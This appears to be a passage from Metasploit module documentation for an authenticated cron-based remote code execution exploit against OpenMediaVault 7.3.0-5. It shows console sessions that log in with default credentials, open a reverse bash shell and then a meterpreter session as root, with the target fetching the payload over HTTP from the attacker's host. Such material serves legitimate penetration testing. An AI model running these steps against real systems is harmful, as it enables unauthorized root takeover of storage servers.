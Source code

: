```msf
msf exploit(unix/webapp/openmediavault_auth_cron_rce) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Authenticating with OpenMediaVault using credentials admin:openmediavault
[*] Trying to detect if target is running a vulnerable version of OpenMediaVault.
[+] The target appears to be vulnerable. Version 7.3.0.pre.5
[*] Executing Unix Command for cmd/unix/reverse_bash
[+] Cron payload execution triggered. Wait at least 1 minute for the session to be established.
[+] Cron payload entry successfully removed.
[*] Command shell session 8 opened (192.168.201.8:4444 -> 192.168.201.10:50292) at 2024-07-01 20:14:07 +0000

pwd
/root
uname -a
Linux cerberus 5.15.44-Re4son-v8l+ #1 SMP PREEMPT Debian kali-pi (2022-07-03) aarch64 GNU/Linux
```
###  openmediavault 7.3.0-5 ARM64 Raspberry PI-4  Linux Dropper -  linux/aarch64/meterpreter_reverse_tcp
```msf
msf exploit(unix/webapp/openmediavault_auth_cron_rce) > set target 1
target => 1
msf exploit(unix/webapp/openmediavault_auth_cron_rce) > set rhosts 192.168.1.10
rhosts => 192.168.1.10
msf exploit(unix/webapp/openmediavault_auth_cron_rce) > set lhost 192.168.1.8
lhost => 192.168.1.8
msf exploit(unix/webapp/openmediavault_auth_cron_rce) > exploit

msf exploit(unix/webapp/openmediavault_auth_cron_rce) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Authenticating with OpenMediaVault using credentials admin:openmediavault
[*] Trying to detect if target is running a vulnerable version of OpenMediaVault.
[+] The target appears to be vulnerable. Version 7.3.0.pre.5
[*] Executing Linux Dropper for linux/aarch64/meterpreter_reverse_tcp
[*] Using URL: http://192.168.201.8:8080/DdVzoLQugqto82
[+] Cron payload execution triggered. Wait at least 1 minute for the session to be established.
[*] Command Stager progress - 100.00% done (120/120 bytes)
[*] Client 192.168.201.10 (Wget/1.21.4) requested /DdVzoLQugqto82
[*] Sending payload to 192.168.201.10 (Wget/1.21.4)
[+] Cron payload entry successfully removed.
[*] Meterpreter session 9 opened (192.168.201.8:4444 -> 192.168.201.10:36792) at 2024-07-01 20:22:02 +0000
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.201.10
OS           : Debian  (Linux 5.15.44-Re4son-v8l+)
Architecture : aarch64
BuildTuple   : aarch64-linux-musl
Meterpreter  : aarch64/linux
meterpreter > getuid
Server username: root
meterpreter >
```
## Limitations
Ensure that your `WfsDelay` advanced option is set to more then 60 seconds to allow `cron` to execute the payload.
